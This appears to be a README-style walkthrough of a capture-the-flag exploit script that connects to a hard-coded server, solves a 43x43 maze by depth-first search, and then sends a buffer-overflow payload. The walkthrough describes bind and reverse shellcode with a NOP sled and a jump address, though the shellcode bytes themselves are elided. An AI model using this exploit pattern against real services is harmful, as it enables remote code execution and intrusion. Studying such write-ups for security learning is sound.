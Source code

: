 # Nethack.us-RobotMaze-RCE

The main file you need to look at is 'solve_maze.py'

## What the script actually does

This is an **automated maze-solver + buffer overflow exploit**.

It connects to a remote server, completes a mini-game (maze), then uses a vulnerability to inject shellcode.

The shellcode will then start a reverse shell and connect back to the attacker.

Once exploited, the attacker gains **remote command execution** on the target.


# Script 

## 1. Imports & Setup

```python
import os, sys
import socket, errno
from time import sleep

maze_size = 3741
conn = ('104.236.116.183', 9000)
```

- **`maze_size`** → size of the maze data in bytes expected from the server.  
- **`conn`** → the IP and port of the challenge server.  

---

## 2. Shellcode Definitions

```python
def shellcode():
    ...
    bind_shell = b"..."
    rev2 = b"..."
```

- **`bind_shell`** → raw x86 shellcode that opens a bind shell on port `4444`.  
- **`rev2`** → reverse shell shellcode that connects back to a specific IP and port.  
- **NOP sleds** (`\x90`) are added before and after to help the shellcode land in memory safely.  
- At the end:  
  ```python
  b'\xd3\x79\x0b\x08' # address to jump to ECX
  ```
  is an address in the vulnerable process's memory (little-endian format).  

The function **returns** the complete payload.

---

## 3. Socket Connection Functions

```python
def connect_sock():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(conn)
    sock.setblocking(False)
    return sock
```

- Connects to the target server.
- Sets non-blocking mode to avoid hanging during reads.

```python
def read_sock(sock, size):
    data = b""
    while len(data) < size:
        try:
            data += sock.recv(4096)
        except IOError as e:
            sleep(.2)
            if e.args[0] == errno.EAGAIN:
                continue
            else:
                print(e)
                sys.exit(0)
    return data
```

- Reads exactly `size` bytes from the socket, retrying if no data is ready (`EAGAIN`).

---

## 4. Maze Solver

Uses **recursive depth-first search (DFS)** to find the path.

```python
def solve_maze(y, x, maze):
    try:
        if maze[y][x] == 2:  # Goal
            return ""
        elif maze[y][x] == 1:  # Wall
            return "E"
        elif maze[y][x] == 3:  # Already visited
            return "E"
    except IndexError:
        return "E"

    maze[y][x] = 3  # mark visited

    ret = solve_maze(y+1, x, maze)
    if ret != "E": return "s" + ret

    ret = solve_maze(y, x-1, maze)
    if ret != "E": return "a" + ret

    ret = solve_maze(y-1, x, maze)
    if ret != "E": return "w" + ret

    ret = solve_maze(y, x+1, maze)
    if ret != "E": return "d" + ret

    return "E"
```

- Maze encoding:  
  - `0` → free space  
  - `1` → wall  
  - `2` → goal  
  - `3` → visited  

- Movement mapping:  
  - `"w"` = up  
  - `"s"` = down  
  - `"a"` = left  
  - `"d"` = right  

---

## 5. Maze Parsing

```python
def parse_maze(data):
    maze = []
    for y in range(43):
        xa = []
        for x in range(43):
            rx = (y*87) + (x*2)
            sym = data[rx:rx+2]
            if sym == b"[]":
                xa.append(1)  # wall
            elif sym == b"  " or sym == b"<>":
                xa.append(0)  # empty
        maze.append(xa)
    maze[42][41] = 2  # exit
    return maze
```

- Converts ASCII maze into a 2D grid of numbers.  
- Maze is **43 × 43 tiles**, each tile taking 2 bytes in ASCII form.  
- Bottom-right corner is marked as the exit.

---

## 6. Main Exploit Flow

```python
if __name__ == "__main__":
    sock = connect_sock()
    data = read_sock(sock, maze_size)

    maze = parse_maze(data)
    solve = solve_maze(0, 1, maze)

    print(data.decode())
    sock.send(solve.encode())

    recv_len = (len(solve) - 1) * maze_size + 56
    data = read_sock(sock, recv_len)

    print(data.decode())
    sock.send(shellcode())

    print("Dropping to shell ... ACTIVE\n")
    # os.system("nc " + conn[0] + " 4444")
```

**Step-by-step:**
1. Connects to the server.
2. Reads the maze data.
3. Parses the maze into a 2D grid.
4. Solves it from starting point `(0, 1)`.
5. Sends the movement string to the server.
6. Reads additional response data.
7. Sends the shellcode payload.
8. Prepares to connect to the shell (commented out).

